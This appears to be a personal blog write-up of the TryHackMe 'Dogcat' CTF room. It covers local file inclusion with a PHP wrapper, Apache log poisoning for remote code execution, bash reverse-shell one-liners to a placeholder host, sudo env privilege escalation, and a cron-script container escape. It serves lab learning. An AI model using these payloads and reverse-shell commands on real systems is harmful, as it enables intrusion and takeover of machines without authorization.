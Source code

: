 ```yaml
---
title: Dogcat tryhackme writeup
date: 2022-04-29 14:26:00 +0200
categories: [Blog, Writeup]
tags: [writeup, tryhackme, pentesting, pen, testing, hacking, ethical, dogcat, dog, cat]
render_with_liquid: false
comments: false

---
```

kek
Writeup of me, **Bltz**, resolving tryhackme's easy room 'All in One', this is my first writeup of many. I'm a begginer so i might make some mistakes!

![AllinOne info](/assets/dogcat.png)



### This CTF room include the next topics:
- Local file inclusion
- Use of php wrapper with LFI
- Fuzzing
- Double privilege escalation
- Abusing sudo privileges

# Scanning

A fast nmap scan gives me 2 ports that i use to rescan with -sCV options for services and versions, but no interesting information is shown.
![Nmap scan for open ports](/assets/img/dogcat/004.png)
_First scan with Nmap_

I scanned the web too with **whatweb** but all versions are up to date and there's nothing unusual.

# Discovery

## Website

Looking at the website i see 2 buttons that seems to display a random cat/dog image with the get var _"view"_, 
i try to modify the var value to something else and i got an error saying that only cat or dog are correct inputs.
Then i try to use **dogdog** as _"view"_ variable to see if any kind of filter id applying and it is, a new error shown, dogdog.php file doesn't exist.

![error shown](/assets/img/dogcat/003.png)
_A new error is shown_

This seems like LFI to me 😉

# Gaining access
## LFI


First thing i try is to use null byte with **../dog/../../../../../etc/passwd%00** but an error is shown in the function include().
I dont know what include() does but if i dont use %00 at the end of the string .php will be applied as extension and i couldn't open other types of file.
I try to use the php wrapper to encode index.php to base64 to get the source code and it works, after decoding it i get this:
![index source code](/assets/img/dogcat/005.png)
_index.php source code_

There's another var i didn't see named _"ext"_ that is the extension applied to the _"view"_ var, being the default value .php.
Then, writing **?view=../dog/../../../../../etc/passwd%00&ext=** i manage to get /etc/passwd content.

![passwd content](/assets/img/dogcat/006.png)
_/etc/passwd content_

Having this i quickly think in log posoning, and apache2 log **var/log/apache2/access.log** does the trick

![Acess to apache2 log](/assets/img/dogcat/008.png)
_Apache2 log is shown_


I modify a request with burpsuite changing the user agent to a little php code so we can execute commands remotely.

![Burpsuite modify request](/assets/img/dogcat/010.png)
_Modified request with burpsuite_

I write whoami into our new cmd variable and i check if it's working and it is.
![whoami rce](/assets/img/dogcat/009.png)
_RCE working_

I url encode the code bellow and pass it as _"cmd"_ variable and i send a bash to my netcat through 443 port where i was prevously listening.

```bash
bash -c 'bash -i &> /dev/tcp/<MYIP>/443 0>&1'
```

![whoami rce](/assets/img/dogcat/011.png)
_shell as www-data_


# Privilege escalation

## Escalation to low privilege user

I check the sudo privileges for www-data and i can run env as root.

![www-data privileges](/assets/img/dogcat/014.png)
_www-data sudo privileges and privesc to root_

With this code we quickly privesc to root.

```bash
sudo env /bin/sh
```


Right now I'm looking for the flags, one is in /var/www/html/. I dont find the second one so i do find / -name flag* and i get both 2 and 3, 2 is in /var/www and 3 in /root.
Im stuck because i cant find flag 4. I tried some things, finaly i've just found a script and a .tar in /opt.
When inspecting the script i realize that this is a docker container, and a hostname -I confirms it.

Knowing this i think that maybe the script is involved in a cronjob that backups the website from time to time. With the script beign
writable, i just modify it to send me a shell as root (the owned and the one executing the cron job). But as this docker container
doesn't have nano or vi/vim i have to do it with echo.
```bash
echo '#!/bin/bash' > FILE
echo "bash -c 'bash -i >& /dev/tcp/MYIP/444 0>&1'" >> FILE
```

With this i gain access as the real root user and the flag4.txt is located at /root of the real host.

I hope this writeup was useful and interesting, see you soon!
